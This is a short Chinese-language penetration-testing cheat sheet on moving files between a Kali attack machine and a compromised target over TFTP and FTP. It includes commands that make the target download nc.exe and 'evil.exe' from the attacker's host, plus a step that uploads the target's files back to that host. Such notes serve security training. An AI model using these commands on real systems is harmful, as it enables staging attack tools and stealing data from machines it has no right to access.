 攻击主机：kali      目标机器:windows/linux

### tftp

基于udp,端口为69

攻击机起tftp:
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
chown -R nobody /tftp

目标机:
tftp -i kali-ip GET nc.exe


### ftp

攻击机:
apt-get install pure-ftpd
```setup-ftp
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd username -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
./setup-ftp(输入要设置的密码)
```ftp-commands
echo open kali-ip 21> ftp.txt
echo username>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
把ftp-commands文件中的内容粘贴到目标机的远程shell上去运行

目标机上传文件(连接状态):
ftp> put target.exe(如果是windows且文件在其他盘,需使用绝对路径)

关闭ftp:
/etc/init.d/pure-ftpd stop

攻击机使用python起ftp:
apt-get install python-pyftpdlib
mkdir /ftp
cd /ftp/
python -m pyftpdlib -p 21
此时目标机连接的时候,用户名为anonymous,密码随意
